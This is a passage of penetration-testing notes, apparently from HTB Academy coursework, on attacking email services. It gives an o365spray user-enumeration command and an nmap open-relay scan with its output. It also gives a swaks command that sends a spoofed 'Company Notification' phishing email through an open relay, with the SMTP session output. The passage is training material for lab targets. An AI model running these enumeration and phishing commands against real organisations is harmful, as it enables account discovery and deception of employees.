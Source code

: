### Cloud Service Enumeration Tools
```bash
# Microsoft Office 365
python3 o365spray.py --enum -U users.txt --domain target.com

# Gmail/Google Workspace  
# Use CredKing for Gmail enumeration

# Generic cloud email enumeration
# - Check for common cloud providers in MX records
# - Use service-specific enumeration tools
# - Adapt techniques based on cloud provider
```

---

## 📨 Protocol Specific Attacks

### Open Mail Relay Exploitation

#### Understanding Open Relay
```
Open Relay = SMTP server allowing unauthenticated email relay
Risk: Mail from any source transparently re-routed
Attack Vector: Phishing emails appearing from legitimate server
Masking: Source appears to originate from open relay server
```

#### HTB Academy Open Relay Detection
```bash
# HTB Academy Nmap open relay detection
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 23:59 EDT
Nmap scan report for 10.10.11.213
Host is up (0.28s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
```

#### HTB Academy Open Relay Exploitation with Swaks
```bash
# HTB Academy phishing email via open relay
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
```